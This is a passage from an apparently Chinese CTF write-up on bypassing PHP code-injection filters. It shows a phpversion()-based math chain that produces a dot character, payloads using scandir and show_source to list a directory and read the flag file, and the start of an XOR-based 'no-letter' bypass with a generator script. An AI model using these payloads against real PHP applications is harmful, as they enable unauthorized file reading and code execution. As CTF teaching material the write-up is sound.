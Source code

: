 查取相关文章发现了phpversion()函数可以利用

```
phpversion()返回PHP版本，如5.5.9

floor(phpversion())返回 5

sqrt(floor(phpversion()))返回2.2360679774998

tan(floor(sqrt(floor(phpversion()))))返回-2.1850398632615

cosh(tan(floor(sqrt(floor(phpversion())))))返回4.5017381103491

sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))返回45.081318677156

ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))返回46
```

有了46就可以用chr函数构造点了。

然后成功读取目录

```
var_dump(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))));
```

![微信图片_202104061628022](https://tcakalr.gitee.io/tc/微信图片_202104061628022.png)

发现flag文件在最后一位用end函数读取

```
show_source(end(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))))));
```

![微信图片_202104061628023](https://tcakalr.gitee.io/tc/微信图片_202104061628023.png)

# 无字符绕过

无字符绕过涉及两个方法

一、异或

异或的符号是`^`，是一种运算符。

```
1 ^ 1 = 0
1 ^ 0 = 1
0 ^ 1 = 1
0 ^ 0 = 0
```

用异或的方法构造phpinfo：

```php
<?php
for($i=128;$i<255;$i++){
    echo sprintf("%s^%s",urlencode(chr($i)),urlencode(chr(255)))."=>". (chr($i)^chr(255))."\n";
}
?>
```

